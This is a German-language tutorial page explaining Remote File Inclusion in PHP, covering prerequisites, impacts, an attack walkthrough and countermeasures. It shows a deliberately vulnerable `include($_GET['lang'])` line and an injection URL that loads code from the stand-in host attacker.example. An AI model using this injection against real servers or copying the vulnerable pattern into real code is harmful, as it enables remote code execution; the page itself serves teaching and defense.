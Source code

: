 # RFI - Remote File Inclusion

**Remote File Inclusion (RFI)** ist eine Schwachstelle in Webanwendungen, bei der externe Dateien von einem Remote-Server über unsichere Eingabeverarbeitung eingebunden werden können. Ähnlich wie bei Local File Inclusion (LFI) liegt die Ursache meist in fehlender oder unzureichender Validierung von Benutzereingaben, insbesondere in Funktionen wie `include()` oder `require()` in PHP.

***

#### Voraussetzungen

Eine erfolgreiche RFI-Attacke erfordert:

* Die PHP-Konfiguration `allow_url_fopen` muss aktiviert sein.
* Die Webanwendung erlaubt die Einbindung externer Ressourcen ohne ausreichende Prüfung.

***

#### Auswirkungen

Die Risiken bei RFI sind erheblich und reichen über die von LFI hinaus. Mögliche Folgen sind:

* **Remote Code Execution (RCE)**
* **Offenlegung sensibler Informationen**
* **Cross-Site Scripting (XSS)**
* **Denial of Service (DoS)**

***

#### Angriffsablauf

1. Der Angreifer hostet eine Datei auf einem externen Server, z. B.:

```php
<?php echo "Hello World"; ?>
```

2. Die Webanwendung ruft eine Datei über einen URL-Parameter auf, z. B.:

```
http://webapp.example/index.php?lang=http://attacker.example/cmd.txt
```

3. Ohne Eingabefilterung wird die URL in eine PHP-Funktion wie `include()` übergeben:

```php
<?php include($_GET['lang']); ?>
```

4. Die Anwendung lädt und führt den externen Code aus. In diesem Fall würde „Hello World“ im Webinterface angezeigt oder im Hintergrund schädlicher Code ausgeführt.

***

#### Beispielstruktur eines RFI-Angriffs

1. **Vorbereitung**: Angreifer stellt eine Datei wie `cmd.txt` mit Schadcode auf eigenem Server bereit.
2.  **Injection**: Der URL-Parameter wird manipuliert, z. B.:

    ```
    http://webapp.example/index.php?lang=http://attacker.example/cmd.txt
    ```
3. **Ausführung**: Die Anwendung lädt die Datei über `include()` und führt den darin enthaltenen PHP-Code auf dem Zielsystem aus.

***

#### Schutzmaßnahmen

* Deaktivierung von `allow_url_include` und `allow_url_fopen`.
* Strenge Validierung oder Whitelisting von Eingaben.
* Verzicht auf direkte Einbindung von Benutzereingaben.
* Verwendung sicherer Frameworks mit Template-Engines.
